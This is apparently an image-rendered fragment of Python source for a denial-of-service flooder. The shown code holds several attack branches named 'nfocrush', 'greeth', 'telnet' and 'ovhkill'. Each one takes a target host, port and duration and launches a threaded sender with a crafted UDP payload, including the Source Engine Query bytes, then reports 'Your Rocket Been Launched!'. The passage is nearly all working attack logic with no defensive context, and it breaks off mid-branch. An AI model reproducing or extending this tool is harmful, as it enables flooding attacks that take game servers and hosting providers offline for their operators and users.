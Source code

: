 					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					payload = b"\xff\xff\xff\xffTSource Engine Query\x00"
					threading.Thread(target=stdsender, args=(host, port, timer, payload)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "nfocrush":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					payload = b"\xff\xff\xff\xffTSource Engine Query\x00"
					threading.Thread(target=stdsender, args=(host, port, timer, payload)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "greeth":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					payload = b"\xff\xff\xff\xffTSource Engine Query\x00"
					threading.Thread(target=stdsender, args=(host, port, timer, payload)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "telnet":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					payload = b"\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00"
					threading.Thread(target=stdsender, args=(host, port, timer, payload)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "ovhkill":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")